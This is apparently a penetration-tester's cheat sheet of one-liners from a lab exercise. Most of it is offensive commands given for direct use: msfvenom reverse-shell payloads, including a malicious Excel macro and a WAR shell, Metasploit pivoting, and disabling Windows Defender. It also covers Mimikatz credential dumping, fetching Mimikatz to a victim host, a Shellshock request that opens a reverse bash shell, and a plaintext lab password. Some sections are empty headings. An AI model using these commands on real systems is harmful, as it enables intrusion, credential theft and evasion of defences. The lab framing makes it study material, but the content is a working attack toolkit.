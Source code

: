# One Liners:
## Powershell one liner ping sweep
```powershell
100..255 | % {"192.168.0.$($_): $(Test-Connection -count 1 -comp 192.168.0.$($_) -quiet)"}
```

# File Transfers:
## From Linux to Windows:


# Networking:
## Fixing Internet and Asking DHCP for IP:
```bash
# ENS33 = interface
sudo ip link set ens33 up
sudo dhclient ens33 -v
```

## Adding a new route:
-> Adding a route to 192.168.0.101 via 10.10.10.15 (Gateway) and mask (255.255.255.0):
--> Windows:
```batch
route add 192.168.0.101 mask 255.255.255.0 10.10.10.15
```
--> Linux:
```bash
sudo ip route add 192.168.0.101 via 10.10.10.15
```

# Binary Exploitation
## Compiling binaries in 32-bit for BoFs:
```bash
gcc main.c -o main --no-stack-protector -z execstack -m32
# In case an error occurs about some file missing, try this command:
sudo apt-get install gcc-multilib
# and then this command
sudo apt-get install libx11-dev:i386 libx11-dev
```

## Finding offset of a function in a binary:
```bash

```

# Active Directory

## Stabalizing shell:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# CTRL-Z
stty raw -echo
fg
export TERM=screen
```
## Payloads:
```bash
# Windows Rev shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=55 -f exe  > rev.exe
# Excel macro using VBA
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=tun0 LPORT=53 -f vba -o macro.vba
```

## Metasploit:
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 55
set lhost tun0
```

## Metasploit Setting up Socks Proxy
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 55
exploit
## Execute the pre-compiled version on prod
background
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 10.200.19.0/24
exploit

use auxiliary/server/socks_proxy
set VERSION 4A
exploit
```

## If username exists in credguard and found in windows vault:
```bat
runas /savecred /user:admin-petersj /profile cmd.exe
```

## Disable AV using Powershell:
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Dumping with Mimikatz:
```bash
privilege::debug
token::elevate

lsadump::lsa /patch
sekurlsa::tickets /export

lsadump::sam
sekurlsa::logonPasswords
```

## Sharphound:
```bash
powershell -ep bypass
. .\\Sharphound.ps1
## OR
Import-Module .\\Sharphound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain THROWBACK.local -ZipFileName loot.zip
```

## Transferring using SCP:
```bash
scp user@ip:/path/to/file outfile.ext
```

## Downloading Mimikatz onto the victim machine
```bash
mkdir mimikatz
cd mimikatz
wget 10.50.17.48:8000/mimikatz/mimidrv.sys -outfile mimidrv.sys
wget 10.50.17.48:8000/mimikatz/mimikatz.exe -outfile mimikatz.exe
wget 10.50.17.48:8000/mimikatz/mimilib.dll -outfile mimilib.dll
```

## Evil-Winrm:
```bash
# From THROWBACK-DC01 setup proxy and then use this to go into CORP-DC01
proxychains evil-winrm -i 10.200.19.118 -u mercerh -p pikapikachu7
```

# Misc:

## Shellshock Exploitation:

```bash
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<YOUR IP>/<PORT> 0>&1' http://<Victim IP>/cgi-bin/<Script>
```

## MSFVenom:
```bash
# Windows Rev shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=55 -f exe  > rev.exe
# Excel macro using VBA
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=tun0 LPORT=53 -f vba -o macro.vba
# WAR Rev Shell for Apache Tomcat
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

## Running commands of Languages in command line:
```bash
python -c 'print("Hello World!")'
perl -e 'system("echo Hi");'
ruby -e "system('echo hi')"
```

## Upload file on webserver using curl and PUT method:
```bash
curl -v -T <file_name> http://<IP>/<dir>/ -0
```

